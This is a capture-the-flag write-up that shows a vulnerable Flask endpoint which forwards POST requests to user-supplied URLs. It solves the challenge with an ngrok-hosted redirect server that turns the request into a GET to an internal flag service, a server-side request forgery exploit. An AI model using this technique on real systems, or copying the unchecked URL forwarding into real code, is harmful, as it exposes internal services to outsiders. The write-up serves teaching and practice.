 ## 4. GET my POST

In this challenge, the exposed endpoint only accepts POST requests to /submit. Additionally, a url parameter is accepted and the POST request to the provided URL is sent with response returned to the client. The challenge is to turn our POST request into a GET request sent to http://internal:5001/flag.

**Source:**

```python
import requests
from flask import Flask, request, abort

app = Flask(__name__)


@app.route('/submit', methods=['POST'])
def submit():
    if 'url' in request.json:
        return requests.post(request.json['url']).content
    else:
        abort(404)


@app.get("/")
def index():
    return "You can't connect to this API with your browser. Check the source code."


assert requests.get("http://internal:5001/flag").content.startswith(b"ecsc")

if __name__ == "__main__":
    app.run(port=5000)
```

**Solve**:

Run a server that redirects to the designated url http://internal:5001/flag

```python
from flask import Flask, redirect, request

app = Flask(__name__)

@app.route('/', methods=['POST'])
def handle_post():
    # Process POST data if needed
    return redirect('http://internal:5001/flag', code=302)

if __name__ == "__main__":
    app.run(port=8000)
```

Local flask server hosted with ngrok `ngrok http 8000`.
